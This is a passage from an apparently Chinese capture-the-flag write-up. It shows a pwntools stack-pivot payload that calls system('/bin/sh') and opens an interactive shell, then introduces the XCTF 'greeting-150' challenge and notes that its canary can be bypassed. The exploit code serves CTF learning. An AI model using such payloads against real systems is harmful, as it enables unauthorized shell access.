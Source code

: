```python

payload2=('aaaa'+p32(sys_addr)+p32(0)+p32(0xffd9d730)+'/bin/sh').ljust(0x28,'\x00')+p32(ebp-0x38)+p32(level_ret_addr)#这个ljust的意思是说不足0x28的部分补成00（也就是我在上图中标注的垃圾数据）这个0x38的偏移算法和上面那个0x28是相同的，这个地址是栈顶的地址，也就是我们payload中aaaa的地址，要用这个地址去覆盖ebp

p.send(payload2)

p.interactive()
```
————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————
## 攻防世界上的greeting-150

![image-20220411123425472](/upload/img/image-20220411123425472.png)

​	这里表面上是看开了canary，但是在主要的函数中，没有发现canary的影子，因此，这个canary保护，在这里是有点迷惑性的，我们可以去溢出。
<img src="/upload/img/image-20220411123429201.png" alt="image-20220411123429201" style="zoom:50%;" />
